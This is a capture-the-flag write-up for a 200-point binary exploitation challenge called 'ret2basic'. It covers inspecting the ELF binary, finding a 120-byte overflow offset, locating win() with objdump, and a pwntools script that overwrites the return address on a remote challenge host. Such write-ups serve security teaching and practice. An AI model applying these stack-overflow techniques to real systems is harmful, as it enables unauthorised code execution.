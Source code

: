 # ret2basic

ret2basic is a binary exploitation challenge worth 200 points

> Can you ret2win? 

## Challenge Goal

We need to cause a buffer overflow and change the instruction pointer to point
to the address of the win() function.

## Analyzing the program

Start by examing the binary:
```
$ file ./ret2basic             
./ret2basic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically
linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=3ca85eae693fed659275c0eed9c313e7f0083b85, for GNU/Linux 4.4.0, not
stripped
```

We see that the binary is 64-bit and the debugging information and symbols are
not stripped. This is all good info to know.

Now run it:

```
$ ./ret2basic 
Can you overflow this?: yes
Nope :(
```

## Causing a Segfault
I stuffed the input with a string of A's until I caused a segfault.

```
$ python -c "print 'A' * 200" | ./ret2basic
Can you overflow this?:
zsh: segmentation fault  ./ret2basi
```

I played around with the number of A's to generate, and found the sweet spot to
be 120. This fills the buffer and the base pointer, but does not overflow the
instruction pointer (RIP). Meaning, whatever we push onto the stack next will be
executed.

We need to push the address of the win function in order to get the flag. This
can be found with ```objdump```:

```
$ objdump -D ret2basic| grep "<win>"
0000000000401215 <win>:
```

Time to put it all together and create an exploit!

## Crafting an exploit payload

```
from pwn import *

local = False

if local:
        p = process('./ret2basic')
        p.recvuntil('Can you overflow this?:')
else:
        p = remote('challenge.nahamcon.com', 30413)

# Craft the payload
payload  = b'A' * 120                   # Fill buffer up to RIP
payload += p64(0x0000000000401215)      # Overwrite RIP with addr of win()

p.sendline(payload)

# Print the flag
print(p.recvline())
p.interactive()
```

Tada!
